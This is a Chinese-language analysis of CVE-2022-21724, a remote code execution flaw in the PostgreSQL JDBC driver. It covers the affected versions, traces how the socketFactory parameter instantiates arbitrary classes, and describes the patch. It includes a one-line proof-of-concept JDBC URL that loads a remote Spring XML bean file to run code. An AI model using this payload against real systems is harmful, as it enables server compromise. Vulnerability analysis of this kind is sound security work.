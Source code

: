 - [CVE-2022-21724 PosegreSQL 远程代码执行](#cve-2022-21724-posegresql-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [ConnectionImpl](#connectionimpl)
    - [socketFactory](#socketfactory)
  - [POC](#poc)
  - [补丁](#补丁)
# CVE-2022-21724 PosegreSQL 远程代码执行
## 影响版本
>=9.4.1208&&<42.2.25||>=42.3.0&&<42.3.2
## 原理分析
### ConnectionImpl
在org/postgresql/Driver.java#connect中对JDBC字符串做解析处理,其中各个参数和对应的值都放入了Info属性中。
![](2.png)
在org/postgresql/core/v3/ConnectionFactoryImpl.java中为Connect工厂的实现,其中调用了`SocketFactoryFactory.getSocketFactory(info)`将Info属性传入来获取`SocketFactory`。
![](3.png)
### socketFactory 
根据官方文档 [参考](https://jdbc.postgresql.org/documentation/head/connect.html#connection-parameters)
在PostgreSQL连接时支持使用指定的类来建立Socket连接,该类必须继承`javax.net.SocketFactory`类,且该类需要有无参构造函数,接受String类型参数的构造函数或者接受一个Properties 作为参数的构造函数,Properties中包括了该类所需要的参数列表。  

![](1.png)
socketFactory：要使用的socketFactory类.
socketFactoryArg：socketFactory类的参数.

在`getSocketFactory`中,根据info中socketFactory的值来获取类名然后又调用`ObjectFactory`来生成对象。
![](4.png)
在`ObjectFactory`中则通过Class.forName获取到对应的Class和对应的构造器,然后调用构造器newInstance直接实例化了对象。
![](5.png)
整个过程并没有检验指定的socketFactory类是否继承了`javax.net.SocketFactory`并实现了相关接口，所以只要找一个可访问并带String参数构造器的类，其中构造器内执行了危险操作即可利用。
## POC
以org.springframework.context.support.ClassPathXmlApplicationContext类为例,其中构造函数支持从给定的xml地址加载Bean对象。

```java
        DriverManager.getConnection("jdbc:postgresql://127.0.0.1/test?user=test&password=123456&socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:8082/exp.xml");
```
![](6.png)
## 补丁
在调用`ObjectFactory`时传入SocketFactory类,在`ObjectFactory`中检验了继承关系。
![](7.png)
![](8.png)
